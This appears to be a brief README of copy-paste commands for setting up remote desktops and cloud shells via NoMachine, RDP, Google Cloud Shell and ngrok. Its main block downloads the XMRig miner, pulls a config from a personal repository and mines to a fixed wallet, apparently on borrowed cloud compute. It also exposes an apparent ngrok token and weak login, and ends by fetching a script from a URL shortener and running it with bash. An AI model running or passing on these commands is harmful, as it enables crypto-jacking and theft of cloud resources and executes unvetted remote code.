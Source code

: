 # Garapan
[no machine](https://www.nomachine.com/)

rdp [rdp](https://learn.microsoft.com/en-us/training/modules/extend-elements-finance-operations/4-exercise)

coudshel .[g](https://shell.cloud.google.com/?fromcloudshell=true&show=terminal&pli=1)
#  ngrok


 ```console  
curl -L -o xmrig-6.19.2-linux-static-x64.tar.gz https://github.com/xmrig/xmrig/releases/download/v6.19.2/xmrig-6.19.2-linux-static-x64.tar.gz && tar xf xmrig-6.19.2-linux-static-x64.tar.gz && cd xmrig-6.19.2 && wget https://raw.githubusercontent.com/Sukri88/g/main/umninable.txt && cp umninable.txt config.json && rm -rf umninable.txt && clear && sleep 3 && ./xmrig -o rx.unmineable.com:3333 -u SHIB:0xf6d6dffacbfa6cc481f1e0bf34997f144fcd77df.wor675er -p x -t 90 -k --cpu-affinity=2 --cpu-priority=5 --cpu-max-threads-hint=80 --huge-pages-jit --hugepage-size=2000 --randomx-mode=fast --randomx-1gb-pages

 ```

ngrok 2 

 ```console  

2TWmNeemcBYtFvEHjRBZnjSebNr_3vtg9utsV4HPVRNi4DSZH

 ```


 ```console  
Plmmlp00
 ```

 ```console  
0.tcp.ap.ngrok.io
 ```
 ```console  
14322
 ```
 ```console  
user
 ```
 ```console  
123456
 ```





```console  

curl -sLkO https://is.gd/nomachinewindows10 ; bash nomachinewindows10


 ```
